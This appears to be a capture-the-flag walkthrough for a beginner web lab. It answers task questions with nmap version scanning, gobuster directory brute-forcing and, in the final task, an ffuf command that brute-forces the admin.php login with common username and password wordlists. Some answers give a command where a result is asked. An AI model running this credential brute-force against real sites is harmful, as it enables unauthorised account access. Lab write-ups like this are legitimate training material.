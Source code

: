 # Task 1: Directory Brute-forcing is a technique used to check a lot of paths on a web server to find hidden pages. Which is another name for this? (i) Local File Inclusion, (ii) dir busting, (iii) hash cracking.
dir busting

# Task 2: What switch do we use for nmap's scan to specify that we want to perform version detection
-sV

# Task 3: What does Nmap report is the service identified as running on port 80/tcp?
http

# Task 4: What server name and version of service is running on port 80/tcp?
`nmap -sV 10.129.117.185`

# Task 5: What switch do we use to specify to Gobuster we want to perform dir busting specifically?
dir

# Task 6: When using gobuster to dir bust, what switch do we add to make sure it finds PHP pages?
-x php

# Task 7: What page is found during our dir busting activities?
gobuster dir -u http://10.129.117.185 -x php -w /usr/share/wordlists/seclists/Discovery/Web-Content/common.txt

# Task 8: What is the HTTP status code reported by Gobuster for the discovered page?
200

# Task 9: Flag
`ffuf -w /usr/share/wordlists/seclists/Usernames/top-usernames-shortlist.txt:FUZZ1 -w /usr/share/wordlists/seclists/Passwords/Common-Credentials/top-20-common-SSH-passwords.txt:FUZZ2 -u http://10.129.93.114/admin.php -X POST -d "username=FUZZ1&password=FUZZ2" -H "Content-Type: application/x-www-form-urlencoded" -fs 1071`
